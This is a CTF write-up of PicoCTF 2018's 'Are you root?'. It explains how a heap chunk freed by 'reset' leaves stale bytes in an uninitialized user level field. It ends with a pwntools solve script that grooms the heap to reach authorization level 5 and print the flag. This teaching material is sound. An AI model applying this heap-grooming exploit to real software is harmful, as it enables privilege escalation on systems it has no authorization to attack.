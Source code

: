 ```yaml
---
slug: are-you-root
title: Are you root?
authors: [nguyen]
tags: [PicoCTF 2018, Binary Exploitation, Heap grooming]
---
```


2018 PicoCTF: Are you root?

<!--truncate-->

## The Challenge

The provided executable [here](/files/are_you_root/auth)

The goal is to obtain the flag.

## Analysis

Running the program on a terminal gives us an interface we can login as a user. We are given the option to set the authorization level below 5. In order to get the flag, we must be able to set the authorization to level 5.

After looking through the source file, we can see that allocated memory is not initalized for the `user` struct member `level`. `user->name` is free'd upon receiving the `reset` command but the `user` struct itself is not freed.

We can use gdb with the gef extension to look more closely into the heap memory as we run the program. I have a breakpoint set at `putchar` as it is right before `fgets` is called for user input. I run `heap chunks` and `heap bins` to look at the current status of the heap.

![Initial heap and bin](/img/are_you_root/initial_heap.png)

As expected, there is no memory allocated on the heap or stored in bins yet.

I enter `login aaaaaaaaaaaaaaaaaaaa` to login as a user named containg 20 'A's and look at `heap chunks` and `heap bins`.

![Heap and bin after first login](/img/are_you_root/login_heap.png)

Viewing the chunks shows the stdin buffer containing the input string. Under it is a chunk that contains a pointer to the chunk below it. This makes me think that it is the user struct containing the pointer to the user name. The chunk with user name contains the 'a's as expected.

I enter `reset` to free user name and look at the updated `heap chunks` and `heap bins`.

![Heap and bin after reset](/img/are_you_root/reset.png)

When free is called on `user->name`, the chunk containing the name string is stored in tcache.

If we log in again and look at the heap chunks, we can see that the free'd memory still contains a part of the username provided previously. The first 8 bytes are zero'd out but the rest remain the same. I enter `login b` and view the updated heap and bins.

![Logging in after reset](/img/are_you_root/second_login.png)

The chunk at 0x603260 is the stdin buffer as it contains `reset` and 'a's. The 'a's are still there because stdin is not flushed and a null terminator separates the strings. The user struct is still in the chunks since it was not freed. Tcache is now empty because the chunk is being reused by the new user struct.

Entering `show` then gives us the output below:

![show on second login](/img/are_you_root/show.png)

The authorization level is actually the decimal conversion of 4 'a's. These 'a's are the ones that had remained on the heap after `user->name` had been free'd from the `reset` command.

We can manipulate the heap in a way so that the value `5` will be stored in the new user's level from running `login`. I will have the first 8 bytes set as 'a's and the following byte to be 0x05.

```python
#!/usr/bin/env python3

"""
Toast's submission for the challenge 'Are you Root'.

This script can be used in the following manner:
python3 ./solve.py

Returns:
    The flag to solve the challenge.
"""

from pwn import *

exe = ELF("./auth")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    io = process([exe.path])
    return io


def main():
    '''Return the flag.
    '''
    return get_flag()


def get_flag():
    '''Get the flag'''
    with conn() as io:
        payload = str.encode("login aaaaaaaa") + b'\x05'
        io.sendlineafter(b"> ", payload)
        io.sendlineafter(b"> ", b"reset")
        io.sendlineafter(b"> ", b"login bob")
        io.sendlineafter(b"> ", b"get-flag")
        flag = str(io.recvline())
        io.success("Flag found: " + flag)
        return flag


if __name__ == '__main__':
    main()
```

This attack is successful because of how the glibc heap management works. Data that is freed will be stored in tcache if it meets size requirements and has space to store chunks. Tcache is the first place that is checked for memory allocation or placing free'd chunks. Tcache is meant to speed up performance because it is thread specific and does not require the bin to be locked for modification. If the program called a function pointer instead of checking an integer value, I would be able to call the `give_flag()` function directly.

## References

[Sourceware glibc Wiki](https://sourceware.org/glibc/wiki/MallocInternals)
